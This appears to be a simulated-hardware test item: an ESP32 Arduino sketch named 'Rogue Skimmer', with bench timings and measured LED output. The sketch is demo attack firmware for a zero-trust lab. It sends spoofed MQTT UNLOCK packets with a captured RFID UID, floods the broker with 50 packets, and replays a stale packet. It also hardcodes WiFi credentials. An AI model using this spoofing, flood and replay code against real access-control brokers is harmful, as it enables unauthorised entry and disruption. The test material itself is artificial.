
The sketch below on a simulated ESP32. On the bench: output pins drawn as LEDs (lit = HIGH). Dashed ring = blinking. The inputs (shaded band) are chosen by the test bench; at power-on: GPIO 0 (BUTTON_PIN) HIGH. WiFi joins after 1.5 s; servers stay silent unless stated; no MQTT or app messages arrive unless stated; what the sketch prints to the serial monitor is not drawn.

Above: at 2.8 s.
2.9 s: GPIO 0 (BUTTON_PIN) pulled LOW for 0.15 s
At 3.13 s:

5.0 s: GPIO 0 (BUTTON_PIN) pulled LOW for 1 s
At 7.3 s:

7.5 s: GPIO 0 (BUTTON_PIN) pulled LOW for 3.2 s
At 11.21 s:

Timing chart, 0 to 13.2 s (numbered marks = the images above; inputs shaded):


Measured:
- after the input at 2.9 s, GPIO 2 (LED_PIN): alternates HIGH for 0.15 s and LOW for 0.15 s, 4 changes in all, then stays LOW, starting after 0.16 s
- after the input at 5.0 s, GPIO 2 (LED_PIN): alternates HIGH for 0.02 s and LOW for 0.02 s, 48 changes in all, then stays LOW, starting after 1.0 s
- after the input at 7.5 s, GPIO 2 (LED_PIN): alternates HIGH for 0.02 s and LOW for 0.02 s, 48 changes in all, then stays LOW, starting after 3.2 s

The sketch:

esp32_rogue_skimmer.ino
```cpp
/*
 * ============================================================
 *  Zero-Trust Rogue Skimmer — Standard ESP32 Attack Firmware
 *  Phase 4: The Hacker Tool
 * ============================================================
 *
 *  Hardware: Standard ESP32 (WROOM or WROVER) + push-button
 *  Button wired: GPIO 0 → GND (active low, with internal pull-up)
 *
 *  What this demonstrates:
 *    Press the button → sends a perfectly valid-looking JSON payload
 *    to the Pi's MQTT broker, claiming to be "ESP32_CAM_PERIMETER"
 *    with a legitimate RFID UID and UNLOCK command.
 *
 *  Why the AI catches it every time:
 *    This ESP32 is NOT running the RC522, OV2640 camera, or complex
 *    SPI bus logic. Its CPU scheduling produces:
 *      • Inter-Packet Delays (IPD) of ~200ms (vs. real ESP32-CAM: 500ms)
 *      • Zero SPI-bus jitter signatures
 *      • Free heap that's too large (no camera FB allocated: ~320KB)
 *      • No valid HMAC-SHA256 signature (wrong key)
 *
 *    The Pi's ML model was trained on REAL ESP32-CAM timing fingerprints.
 *    The attacker's "too clean" packets are immediately classified as
 *    SPOOFED and trust score drops -40 per packet.
 *
 *  PRESS COUNT MODES (cycle with each button press):
 *    Mode 1 — Single spoof packet (basic attack)
 *    Mode 2 — Flood attack (rapid-fire packets, overwhelm broker)
 *    Mode 3 — REPLAY attack (re-sends captured legitimate UID)
 *
 *  This device is clearly labelled "ATTACKER" in the MQTT client ID
 *  so the dashboard shows it as the red threat immediately.
 * ============================================================
 */

#include <Arduino.h>
#include <WiFi.h>
#include <PubSubClient.h>
#include <ArduinoJson.h>

// ── Credentials (must match the target network) ────────────────────────────
#define WIFI_SSID        "Room203"
#define WIFI_PASSWORD    "Hostel@203"
#define MQTT_BROKER      "192.168.1.113"
#define MQTT_PORT        1883
#define MQTT_CLIENT_ID   "ESP32_ROGUE_SKIMMER"
#define ATTACKER_ID      "ESP32_ROGUE_SKIMMER"

// ── Spoofed identity (the victim device's ID) ─────────────────────────────
#define SPOOFED_DEVICE_ID  "ESP32_CAM_PERIMETER"
#define SPOOFED_RFID_UID   "A3F7C2B1"     // Pre-captured legitimate UID
#define INVALID_HMAC_SIG   "deadbeef00001111deadbeef00002222"

// ── Topics ─────────────────────────────────────────────────────────────────
#define TOPIC_HEARTBEAT  "mailbox/heartbeat"
#define TOPIC_ACCESS     "mailbox/access"
#define TOPIC_STATUS     "mailbox/status"

// ── Hardware ───────────────────────────────────────────────────────────────
#define BUTTON_PIN       0      // BOOT button (GPIO 0) — already on most devkits
#define LED_PIN          2      // Built-in LED

WiFiClient   wifiClient;
PubSubClient mqtt(wifiClient);

int          attackMode      = 1;
bool         buttonWasHigh   = true;
uint32_t     spoofPacketCount = 0;
uint32_t     lastHbTime      = 0;
uint32_t     lastPacketTime  = 0;


// ═══════════════════════════════════════════════════════════════════════════
// Attack Mode 1: Single Spoof Packet
// ═══════════════════════════════════════════════════════════════════════════

void sendSpoofPacket() {
    uint32_t now = millis();
    uint32_t ipd = (lastPacketTime > 0) ? (now - lastPacketTime) : 200;
    lastPacketTime = now;
    spoofPacketCount++;

    // This is a "perfect" packet — correct format, real RFID UID...
    // ...but the timing signature betrays it.
    StaticJsonDocument<256> doc;
    doc["device_id"]           = SPOOFED_DEVICE_ID;  // ← SPOOFED
    doc["rfid_uid"]            = SPOOFED_RFID_UID;
    doc["challenge_response"]  = "RED";              // Guessing the color
    doc["photo_crc"]           = "00000000";         // No real camera
    doc["photo_size_bytes"]    = 0;
    doc["timestamp"]           = (unsigned long)esp_timer_get_time() / 1000;
    doc["inter_packet_delay"]  = ipd;               // ← Too fast: ~200ms
    doc["rssi"]                = WiFi.RSSI();
    doc["free_heap"]           = esp_get_free_heap_size();  // ← Too large: ~320KB
    doc["packet_size"]         = 256;
    doc["sig"]                 = INVALID_HMAC_SIG;  // ← Wrong HMAC key
    doc["action"]              = "UNLOCK";          // ← The attack command

    String payload;
    serializeJson(doc, payload);

    bool sent = mqtt.publish(TOPIC_ACCESS, payload.c_str());
    Serial.printf("[ATTACK] Mode1 packet #%u sent=%d IPD=%ums\n",
                  spoofPacketCount, sent, ipd);

    // Blink LED to show attack sent
    digitalWrite(LED_PIN, HIGH); delay(100); digitalWrite(LED_PIN, LOW);
}


// ═══════════════════════════════════════════════════════════════════════════
// Attack Mode 2: Heartbeat Flood (DDoS on MQTT broker)
// ═══════════════════════════════════════════════════════════════════════════

void floodAttack() {
    Serial.println("[ATTACK] Mode2: FLOOD ATTACK — 50 rapid packets");
    for (int i = 0; i < 50; i++) {
        // Send extremely fast packets — IPD ≈ 20ms — guaranteed to trip the AI
        StaticJsonDocument<256> doc;
        doc["device_id"]          = SPOOFED_DEVICE_ID;
        doc["inter_packet_delay"] = 20;           // ← 20ms: impossibly fast
        doc["rssi"]               = WiFi.RSSI();
        doc["free_heap"]          = 320000;       // ← Unrealistically large
        doc["packet_size"]        = 256;
        doc["timestamp"]          = esp_timer_get_time() / 1000;
        doc["sig"]                = INVALID_HMAC_SIG;

        String p; serializeJson(doc, p);
        mqtt.publish(TOPIC_HEARTBEAT, p.c_str());
        mqtt.loop();
        delay(20);   // 50Hz = 20ms IPD

        digitalWrite(LED_PIN, i % 2);
    }
    Serial.println("[ATTACK] Flood complete.");
    digitalWrite(LED_PIN, LOW);
}


// ═══════════════════════════════════════════════════════════════════════════
// Attack Mode 3: Replay Attack
// ═══════════════════════════════════════════════════════════════════════════

void replayAttack() {
    Serial.println("[ATTACK] Mode3: REPLAY captured legitimate packet");

    // This simulates a captured and re-transmitted VALID packet.
    // The AI still catches it because the TIMESTAMP and IPD don't match
    // the expected cadence for the real device (the timing is in the past).
    StaticJsonDocument<512> doc;
    doc["device_id"]           = SPOOFED_DEVICE_ID;
    doc["rfid_uid"]            = SPOOFED_RFID_UID;
    doc["challenge_response"]  = "BLUE";
    doc["photo_crc"]           = "4A3F91BC";     // captured real CRC
    doc["photo_size_bytes"]    = 38912;           // captured real size
    doc["timestamp"]           = 1714000000;      // ← OLD timestamp!
    doc["inter_packet_delay"]  = 500;             // correct cadence...
    doc["rssi"]                = -55;
    doc["free_heap"]           = 180000;
    doc["packet_size"]         = 256;
    doc["sig"]                 = "c9f3a8b200deadbeef00112233445566"; // stale
    doc["action"]              = "UNLOCK";

    String payload;
    serializeJson(doc, payload);
    mqtt.publish(TOPIC_ACCESS, payload.c_str());

    Serial.println("[ATTACK] Replay packet sent — timestamp is stale.");
    for (int i = 0; i < 5; i++) {
        digitalWrite(LED_PIN, HIGH); delay(200);
        digitalWrite(LED_PIN, LOW);  delay(200);
    }
}


// ═══════════════════════════════════════════════════════════════════════════
// MQTT Setup
// ═══════════════════════════════════════════════════════════════════════════

void reconnectMQTT() {
    while (!mqtt.connected()) {
        Serial.print("[MQTT] Skimmer connecting...");
        if (mqtt.connect(MQTT_CLIENT_ID)) {
            Serial.println(" OK");
            // Announce ourselves (so the dashboard shows us as a threat)
            StaticJsonDocument<128> ann;
            ann["device_id"]  = ATTACKER_ID;
            ann["status"]     = "ONLINE";
            ann["role"]       = "ROGUE_SKIMMER";
            String annStr; serializeJson(ann, annStr);
            mqtt.publish(TOPIC_STATUS, annStr.c_str());
        } else {
            Serial.printf(" FAIL rc=%d\n", mqtt.state());
            delay(3000);
        }
    }
}


// ═══════════════════════════════════════════════════════════════════════════
// Setup & Loop
// ═══════════════════════════════════════════════════════════════════════════

void setup() {
    Serial.begin(115200);
    Serial.println("\n[BOOT] Zero-Trust Rogue Skimmer v1.0");
    Serial.println("        ██████╗  ██████╗ ██╗ ██╗██╗███████╗");
    Serial.println("        ██╔══██╗██╔═══██╗██║ ██║██║██╔════╝");
    Serial.println("        ██████╔╝██║   ██║██║ ██║██║█████╗  ");
    Serial.println("        ██╔══██╗██║   ██║██║ ██║██║██╔══╝  ");
    Serial.println("        ██║  ██║╚██████╔╝╚██████╔╝██║███████╗");
    Serial.println("        ╚═╝  ╚═╝ ╚═════╝  ╚═════╝ ╚═╝╚══════╝");

    pinMode(BUTTON_PIN, INPUT_PULLUP);
    pinMode(LED_PIN, OUTPUT);

    WiFi.mode(WIFI_STA);
    WiFi.begin(WIFI_SSID, WIFI_PASSWORD);
    Serial.print("[WIFI] Connecting");
    while (WiFi.status() != WL_CONNECTED) {
        delay(500); Serial.print(".");
    }
    Serial.printf("\n[WIFI] Connected: %s\n", WiFi.localIP().toString().c_str());

    mqtt.setServer(MQTT_BROKER, MQTT_PORT);
    mqtt.setBufferSize(4096);
    reconnectMQTT();

    Serial.println("\n[READY] Press BOOT button to launch attack.");
    Serial.println("  Single press → cycle attack mode (1→2→3→1)");
    Serial.println("  Hold 2s      → launch current mode");
    Serial.println("  Current mode: 1 (Single Spoof Packet)");
}

void loop() {
    if (!mqtt.connected()) reconnectMQTT();
    mqtt.loop();

    bool buttonNow = digitalRead(BUTTON_PIN);   // LOW = pressed

    // ── Button logic: short press = cycle mode, hold = launch ─────────────
    static unsigned long pressStart = 0;

    if (buttonNow == LOW && buttonWasHigh) {
        pressStart = millis();
    }

    if (buttonNow == HIGH && !buttonWasHigh) {
        unsigned long held = millis() - pressStart;
        if (held < 500) {
            // Short press → cycle mode
            attackMode = (attackMode % 3) + 1;
            Serial.printf("[MODE] Attack mode: %d\n", attackMode);
            for (int i = 0; i < attackMode; i++) {
                digitalWrite(LED_PIN, HIGH); delay(150);
                digitalWrite(LED_PIN, LOW);  delay(150);
            }
        } else {
            // Long press → launch
            Serial.printf("[LAUNCH] Launching Mode %d attack!\n", attackMode);
            switch (attackMode) {
                case 1: sendSpoofPacket(); break;
                case 2: floodAttack();     break;
                case 3: replayAttack();    break;
            }
        }
    }

    buttonWasHigh = buttonNow;
    delay(10);
}
```
